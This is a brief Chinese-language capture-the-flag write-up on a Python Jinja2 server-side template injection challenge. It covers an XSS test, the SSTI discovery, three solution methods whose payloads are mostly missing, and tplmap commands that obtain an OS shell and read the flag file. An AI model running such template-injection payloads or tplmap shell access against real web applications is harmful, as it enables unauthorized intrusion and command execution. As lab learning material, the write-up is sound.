


这种题做的很少呀，这是python的模板攻击分析
这里没啥东西。测试半天也没找到什么有用的信息。开始以为是XSS
1 | <script>alert();</script> |
然后看到返回的源代码里有一段
1 | <!--ssssssti & a little trick --> P3's girlfirend is : <script>alert();</script><br><hr> |
这应当是ssti了。这块根本就不熟悉。
网上大神给出的测试方法。

用Payload测试之后发现是jinjia2的模板引擎。
解题
方法一
1 | #查看可用模块 |
方法二
1 | #找到os._wrap_close模块 117个 |
方法三
1 | #threading.Semaphore模块 |
使用工具
tplmap这绝逼是个神器。
1 | ./tplmap.py -u <'目标网址'> |

要拿到shell只要这样
1 | ./tplmap.py -u <'目标网址'> --os-shell |
然后就可以执行命令了。
1 | cat /flag |
flag{84e28012-baa2-4016-95bd-92fb2b4a96b0}